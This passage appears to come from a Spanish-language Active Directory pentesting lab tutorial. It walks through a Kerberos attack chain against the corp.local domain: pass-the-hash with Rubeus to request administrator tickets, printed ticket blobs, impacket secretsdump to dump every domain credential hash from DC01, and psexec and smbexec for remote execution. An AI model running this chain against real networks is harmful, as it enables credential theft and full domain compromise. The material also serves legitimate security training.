Para esto Rubeus cuenta con algunas opciones.
Si hemos interceptado el hash NTLM de un usuario como el que tenemos de administrador, podemos usar una función de Rubeus para obtener un TGT sin necesidad de importarlo en la sesión de usuario sin privilegios.
Esto se puede realizar sin privilegios de administración.
NTLM--> a87f3a337d73085c45f9416be5787d86
Podemos verificar antes que nos encontramos en el usuario empleado1 sin privilegios y que el ticket es el correcto:

Ahora si le indicamos a Rubeus:
.\Rubeus.exe asktgt /domain:corp.local /user:administrador /rc4:a87f3a337d73085c45f9416be5787d86
Como vemos podemos obtener el TGT a nombre del administrador y su sessionkey sin necesidad de volcar nada de ninguna sesión ya que lo hemos pedido nosotros:

Ahora como en la anterior sesión podemos utilizar de forma más personal con diferentes herramientas sin necesidad de que windows lo haga de forma transparente.
Igual que antes vamos a llevarlo a kali para formatear el ticket al igual que antes.
El proceso es sencillo:
En Emacs:

Recordar quitar todos los saltos de linea de forma que no queden espacios.
doIFqDCCBaSgAwIBBaEDAgEWooIEvjCCBLphggS2MIIEsqADAgEFoQwbCkNPUlAuTE9DQUyiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCmNvcnAubG9jYWyjggR6MIIEdqADAgESoQMCAQKiggRoBIIEZM2W4ARERmwsZynm+kHG8AsSfB7qHXwzH3vTwZnTpGqXNhQqMgB7MHOAlZkyTQ8X3CNzDvm1eL/pyop2dUMtTsv3YpiMseJ2Wep9I/EijVyciMJrWC74cthBDGRe8UDHJk/rhvLPap5WDUPQeb5TEcVgnLSISqeA5JMDoH29xic1xKDEERHNyozMw3t3pQL6eD+WlhrZEakucXfmgpMXiuHwiYkql22Ic3zruQzKhJQsBMLKqK2kzAJVdFs4JOY76ZWIFlYcwYhSzMGPveB6hETEmjIgbrhVUDQtRdVJ2BvH/Hd87Id7Xz76FDOOwOKAt1y6TIg0750Jv0+Myk08JzskYepSbmQfdJI2GNDyTia06uEdDLc0GweFYzzbTEi4Nfvn9ztydpPpyAcnbR73m+qytjLbtzhtgafw6smgnYirLdFGHNanSqwmSSxXBNfz+vpMh4Tso3DowHb++foh02k9VJ47o9JeaMfoJAOJdTRj5oi4rjCjkG4rtkaeg2FNfkVwbF35IC4PWOEgHkbEYM8i1coaAE0J2uLT0eR3mS2ODGqGMHvbZ4tvO5izZn37ANXznNcIJpAtm7jkQgbv1+gWbck/sSS6zO1lQKaHd/F7BbdzL43KF3BwiOwYjo61uFwNqERswrzRWDWt+E+NhKh3jA5Gtuxjn+SLcZSeXgTn4lk4l5eOxwofzqZyslT/rDuCkbbRgjvtyiwinQsw1pg8unKDtsSoO/pS+Tvnu8zKNViZkcUBBzB+Fqe7p+xXntnGk82fW3HocnSrE9CFl2VCiLLG9uGiYpSU6je4UzYT0/5kVb6dF/43O6UtcqWH8graXxmwucBI0IAQDUrC9yo2gfHmzWuFBX5uQYU1fKBTR3cHXZG5hDzfymwsccsTwxvqOYYFQBtf2tlk38JQpopKdF98viYCDuUd0b7cNi0yRhrgMZ4I8s+NH3Sl8rBUNnGuz9e8GffhMGDP/9WZqEhLZphp+taO1MzOo8mmBkyBWFu+2xNDgDwcjgTakPhHE6YZQlcG28v6jg91pf6kMQ9jC5jV+H29IIFaaFSudc3Ryphx/TUHTCHfpgZlZAmzAs72X8FTR/aqELaA5rr+eL+uup5PHfLiNt12NoIFaFTEGsFNm7RF8sI1zd2yIF3bnOXG52jHWuQ4xAXnXjwxur+aQYqfN2oLF8oxx/ZblO9+JY8l4nPQ04v3kE0lPTWp0ZZNqchx19cXwMY3DTu+K/1txchpjUcNB0bwt9FK3PoEroutRhUx0riNd98PUvQnGc2XZRcUCLU3NAUiqBMWPfasfsVZfscA/lxJWjkOWFWi6oRklxy46wQQjHh0PXk5y6HokITdCxjLnZlzBJWqN/ahy19rAwld9ojVldbXOrs6Quh4WqA+Th/UhA655YPeNzpuF9QmeQu3FTxV996UYyMui4nceVTV4XLcDcdNDO3PpZPYDtubGZK6S7JVp08w5ft+fmi4txmzyXOE7UJ5NCsTmLxHo4HVMIHSoAMCAQCigcoEgcd9gcQwgcGggb4wgbswgbigGzAZoAMCARehEgQQeDuchPGA3Givxf7Uo8+SgqEMGwpDT1JQLkxPQ0FMohowGKADAgEBoREwDxsNYWRtaW5pc3RyYWRvcqMHAwUAQOEAAKURGA8yMDI0MDMwNTA5MDAxN1qmERgPMjAyNDAzMDUxOTAwMTdapxEYDzIwMjQwMzEyMDkwMDE3WqgMGwpDT1JQLkxPQ0FMqR8wHaADAgECoRYwFBsGa3JidGd0Gwpjb3JwLmxvY2Fs
Esto es útil para poder utilizarlo en nuestra propia máquina windows en la que tengamos control de seguridad y evitar así problemas con antivirus, etc y pedir TGS en nombre del usuario de dominio al que hayamos comprometido el hash.
Ahora si lo copiamos y en Rubeus:
.\Rubeus.exe asktgs /ticket:doIFqDCCBaSgAwIBBaEDAgEWooIEvjCCBLphggS2MIIEsqADAgEFoQwbCkNPUlAuTE9DQUyiHzAdoAMCAQKhFjAUGwZrcmJ0Z3QbCmNvcnAubG9jYWyjggR6MIIEdqADAgESoQMCAQKiggRoBIIEZM2W4ARERmwsZynm+kHG8AsSfB7qHXwzH3vTwZnTpGqXNhQqMgB7MHOAlZkyTQ8X3CNzDvm1eL/pyop2dUMtTsv3YpiMseJ2Wep9I/EijVyciMJrWC74cthBDGRe8UDHJk/rhvLPap5WDUPQeb5TEcVgnLSISqeA5JMDoH29xic1xKDEERHNyozMw3t3pQL6eD+WlhrZEakucXfmgpMXiuHwiYkql22Ic3zruQzKhJQsBMLKqK2kzAJVdFs4JOY76ZWIFlYcwYhSzMGPveB6hETEmjIgbrhVUDQtRdVJ2BvH/Hd87Id7Xz76FDOOwOKAt1y6TIg0750Jv0+Myk08JzskYepSbmQfdJI2GNDyTia06uEdDLc0GweFYzzbTEi4Nfvn9ztydpPpyAcnbR73m+qytjLbtzhtgafw6smgnYirLdFGHNanSqwmSSxXBNfz+vpMh4Tso3DowHb++foh02k9VJ47o9JeaMfoJAOJdTRj5oi4rjCjkG4rtkaeg2FNfkVwbF35IC4PWOEgHkbEYM8i1coaAE0J2uLT0eR3mS2ODGqGMHvbZ4tvO5izZn37ANXznNcIJpAtm7jkQgbv1+gWbck/sSS6zO1lQKaHd/F7BbdzL43KF3BwiOwYjo61uFwNqERswrzRWDWt+E+NhKh3jA5Gtuxjn+SLcZSeXgTn4lk4l5eOxwofzqZyslT/rDuCkbbRgjvtyiwinQsw1pg8unKDtsSoO/pS+Tvnu8zKNViZkcUBBzB+Fqe7p+xXntnGk82fW3HocnSrE9CFl2VCiLLG9uGiYpSU6je4UzYT0/5kVb6dF/43O6UtcqWH8graXxmwucBI0IAQDUrC9yo2gfHmzWuFBX5uQYU1fKBTR3cHXZG5hDzfymwsccsTwxvqOYYFQBtf2tlk38JQpopKdF98viYCDuUd0b7cNi0yRhrgMZ4I8s+NH3Sl8rBUNnGuz9e8GffhMGDP/9WZqEhLZphp+taO1MzOo8mmBkyBWFu+2xNDgDwcjgTakPhHE6YZQlcG28v6jg91pf6kMQ9jC5jV+H29IIFaaFSudc3Ryphx/TUHTCHfpgZlZAmzAs72X8FTR/aqELaA5rr+eL+uup5PHfLiNt12NoIFaFTEGsFNm7RF8sI1zd2yIF3bnOXG52jHWuQ4xAXnXjwxur+aQYqfN2oLF8oxx/ZblO9+JY8l4nPQ04v3kE0lPTWp0ZZNqchx19cXwMY3DTu+K/1txchpjUcNB0bwt9FK3PoEroutRhUx0riNd98PUvQnGc2XZRcUCLU3NAUiqBMWPfasfsVZfscA/lxJWjkOWFWi6oRklxy46wQQjHh0PXk5y6HokITdCxjLnZlzBJWqN/ahy19rAwld9ojVldbXOrs6Quh4WqA+Th/UhA655YPeNzpuF9QmeQu3FTxV996UYyMui4nceVTV4XLcDcdNDO3PpZPYDtubGZK6S7JVp08w5ft+fmi4txmzyXOE7UJ5NCsTmLxHo4HVMIHSoAMCAQCigcoEgcd9gcQwgcGggb4wgbswgbigGzAZoAMCARehEgQQeDuchPGA3Givxf7Uo8+SgqEMGwpDT1JQLkxPQ0FMohowGKADAgEBoREwDxsNYWRtaW5pc3RyYWRvcqMHAwUAQOEAAKURGA8yMDI0MDMwNTA5MDAxN1qmERgPMjAyNDAzMDUxOTAwMTdapxEYDzIwMjQwMzEyMDkwMDE3WqgMGwpDT1JQLkxPQ0FMqR8wHaADAgECoRYwFBsGa3JidGd0Gwpjb3JwLmxvY2Fs /service:cifs/DC01.corp.local
Aquí tenemos indicado el request de un TGS para el servicio cifs (consumo de ficheros) del equipo DC01 en nombre de administrador.

Obtenemos por tanto el ticket.
Podemos formatear este nuevo ticket como antes:
gEWooIE0TCCBM1hggTJMIIExaADAgEFoQwbCkNPUlAuTE9DQUyiIjAgoAMCAQKhGTAXGwRjaWZzGw9EQzAxLmNvcnAubG9jYWyjggSKMIIEhqADAgESoQMCAQOiggR4BIIEdKys8f0JI1M9tnVTkK6nRpkGhl6TQj5bIlEe7+Z0gKOBEvQNDYKPk7RVuo25eoc5oCUrltgmrOXezq8vEoxa2SKG7mgVn+6qFu26Frh/FlvBDPf5j5d1RtLx+nhmQMcwQ8TawWpi6m4zYXzQTlbQkn1Ad/LACW+Iq3SVLKJI0IJ90MwrU5t6po+nSxdcjkerTvTHY6/CNJ2etpp+uMqJkWG2wlw2rKtlDN5CQHTZLc/KOi7UFlvseMh0sDkT7d4erERTtmGH576kSy4TySgDGZPzGWpK/WHbWrSlcjXTEyj8H5ckNWeXSccBS45iuP//V3n+ZBM/cbRlOkSpM/Rf/fwSrukPYiFko/L7/WkmThBTNBxQ02x2yphzAKGERt/HgJw6FizCsL3yfxwZYfHTy56B406pOJVgVMK85keOLOEolI4hl4G6hiqCkzv7xzXMHWweGJR90XmLKrBX41ZYN8sytrwDMB1sUpndh+zBkSS45VDYnTxNt7ejJQQ/p2XCpq07l0DeSOWRxSlLqmkL7aPwT5/DqSaI3QrvZg/lACWeGs171kQEI463A6ubVkVBuHhFug9P7LS2CErchImbIgErbJcSn0OxTkJfGcFkBD4nrn6jbYNA9HDBWiKyLmXkMmzAIjvvOpJmWfU+BRy5NJvE6NrEo65fmDVfLckWSmDHnCcnxm4y2sqQvV47iIDR/NKYD3NAoJ5A2MKnFYLCTn7NQXgQYJUYu4Z31HmqL/dVz5G/BlJFpbDhNqmWmnz5obIRJbfKnMJgu3ISiJKuitE7M0XKouldwdoJfuzjsf3rkw7QGCSJxILih6NQkcjn51w6C6r7tj2BT0qeftU6m6KiiTEX19PTG2DigA+DUB5dZtfBlnmZJP16JInlpIkbOPmZXFn8q3mZNPi5Z8Bf8m+HFVxtgdQvZjBmkAIeROlWPTBV5Xe30bWnyrKv7X/u4C+IbaQrX2Rk9G6umeHvHdaj0bi4xQitJPR9HjHBtH+qLEf2boVEDH4vxtH/Hk5MAeFaOd8ons4iu+I86PhvJqWGvsPdb7wsdDEeNMN1Es6r74V4RJU2g8Zeg2VMRKI9q0i0s97V3bBiRzpSjYnYX0DAXYcq05LDmH86pH+gXrZuM+thxXXodE2JP6x1Lu15QltNHHacVvu0UFhIOCuykvF1tObChsRTQ64swpiLuUictBxm69ZxwMForS9Ro4Ms+46XSPkgNHuZklsS98XYTJRZacbe8+PwGe02eKMDa3hooqTON9Lu+MW83jM8snMITtY3QcY3BsDb/TMTqYHzXOnXxmPbSwtewCI7Nj+qXNQLgT4uMNcZJ6V2yWKRoPR2d2A9A54aOziwr/qvk3wzCdGOdolRvAe/dOupodUjxDxt91a+74/YwtQreMmDZq4vFQ8Qu/OsqjjQSmJ3JQFLHiJVprwILXv52wGThvnmVLK0juiqWJLjqNzilwrP199K2FPw9es3/LKLUEtTCF3g8Gh9Sv8TdJvSq/2SuGWACkdvXUPS0KOB6DCB5aADAgEAooHdBIHafYHXMIHUoIHRMIHOMIHLoCswKaADAgESoSIEIPJ6UQoVn06lIsuj3r7bEy8Sahi2XQNQcdDbsLiwauUvoQwbCkNPUlAuTE9DQUyiGjAYoAMCAQGhETAPGw1hZG1pbmlzdHJhZG9yowcDBQBApQAApREYDzIwMjQwMzA1MDkxMjA5WqYRGA8yMDI0MDMwNTE5MDAxN1qnERgPMjAyNDAzMTIwOTAwMTdaqAwbCkNPUlAuTE9DQUypIjAgoAMCAQKhGTAXGwRjaWZzGw9EQzAxLmNvcnAubG9jYWw=
Y ahora le pedimos que importe con Rubeus ese ticket:


Y ya podríamos consumir ese servicio como administrador del domino desde nuestra máquina de atacante.
Vamos a ver que funciones podemos hacer con un TGT desde impacket:
impacket-getTGT corp.local/administrador -hashes :a87f3a337d73085c45f9416be5787d86

Con este TGT podemos hacer cualquier cosa ya que podemos pedir cualquier TGS para cualquier servicio del dominio en nombre del administrador en este caso sin ni siquiera estar dentro del dominio como usuario, simplemente teniendo visibilidad.
En impacket hay una opción que nos permite usar autenticación kerberos y obtener las credenciales de la variable KRB5CCNAME de entorno:

Extraemos las credenciales del TGT anteriormente obtenido:
export KRB5CCNAME=/home/kali/Desktop/administrador.ccache
Indicamos usuario y máquina objetivo de donde volcar la sam y no le indicamos contraseña ya que usará el TGT.
mpacket-secretsdump corp.local/administrador@DC01.corp.local -k -no-pass

Y claro, al ser el DC en su base de datos no solo se encuentran los usuarios locales o el de administrador sino todos los usuarios del dominio:

Incluso claves en cifrado AES256,128,RC4 de cada uno de ellos:

Siendo así posible con las técnicas que hemos visto antes poder realizar cualquier servicio en nombre de cualquier usuario del domino sin necesidad de crackear nada.
Además podemos utilizar otros módulos de Impacket:
impacket-psexec corp.local/administrador@DC01.corp.local -k -no-pass


impacket-smbexec corp.local/administrador@DC01.corp.local -k -no-pass

También podemos obtener TGS:
-spn cifs/DC01.corp.local -no-pass -k corp.local/administrador
